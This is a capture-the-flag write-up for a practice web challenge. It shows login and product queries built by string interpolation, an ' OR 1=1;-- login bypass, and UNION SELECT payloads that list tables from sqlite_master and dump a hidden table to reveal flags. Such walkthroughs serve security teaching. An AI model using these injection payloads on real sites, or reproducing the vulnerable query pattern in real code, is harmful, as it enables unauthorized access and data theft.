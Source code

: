 is this website vulnerable to sql injection? 

as it turns out, yes

```py
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
```

we were told to log in as user ```deafbeef```, so if we set the password as ```' OR 1=1;--```, we can login and get the flag

flag 1: deadbeef{th3_b33f_1s_d34f}

part 2's flag isnt immediately obvious, but we can find out what tables are in the database through another vulnerability:

```py
query = f"SELECT * FROM products WHERE id = {product_id}"
```

if we send the payload ```1 UNION SELECT sql, tbl_name, null FROM sqlite_master```, we see the following output

```
ID: 1, Name: Apple, Price: $5
ID: CREATE TABLE S3CR3t_t4BL3 (id TEXT, content TEXT), Name: S3CR3t_t4BL3, Price: $None
ID: CREATE TABLE products (id INTEGER, name TEXT, price INTEGER), Name: products, Price: $None
ID: CREATE TABLE users (username TEXT, password TEXT), Name: users, Price: $None
```

woah, S3CR3t_t4BL3 looks kinda suspicious, if we modify the above payload a bit

```
1 UNION SELECT id, content, null FROM S3CR3t_t4BL3
```

we can get the flag

flag 2: deafbeef{th3_b33F_1s_n0w_bl1nd}
